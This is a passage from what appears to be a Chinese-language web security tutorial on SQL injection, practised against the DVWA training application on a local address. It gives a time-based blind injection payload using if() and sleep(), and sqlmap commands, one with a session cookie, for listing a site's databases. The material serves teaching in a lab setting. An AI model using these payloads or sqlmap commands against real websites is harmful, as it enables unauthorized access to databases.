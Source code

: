 ![image-20220219025703105](../../images/image-20220219025703105.png)

可以看到，一旦我们构造出结果为真的条件，网页（后端数据库）响应就会延迟。



我们把前文学到的盲注语句嵌入到刚刚的if、sleep组成的句子中，就可以完成接下来的注入了。

`1%27%20and%20if($盲注语句，sleep(5),1)--+`

### 6. sqlmap工具

sqlmap是一款非常强大的开源sql自动化注入工具，可以用来检测和利用sql注入漏洞。它是由python语言编写而成。因此使用sqlmap时，需要在python环境中运行。在kali中集成了这个工具使用sqlmap命令即可调用。

sqlmap最基本的语法是`

```
sqlmap -u "$url" --dbs  #注入这个URL，注入出库名。
```

以DVWA为例，由于DVWA需要登录，没有cookie是无法访问这个网站的。所以还需要指定cookie参数。

```bash
sqlmap -u "$url" --cookie="$cookie"  --dbs

sqlmap -u "http://192.168.43.252/vulnerabilities/sqli/?id=12&Submit=Submit" --cookie="PHPSESSID=iuefue0ve30qnodkna7j236e82; security=low; security_level=0" --dbs
```

![image-20220219132416080](../../images/image-20220219132416080.png)
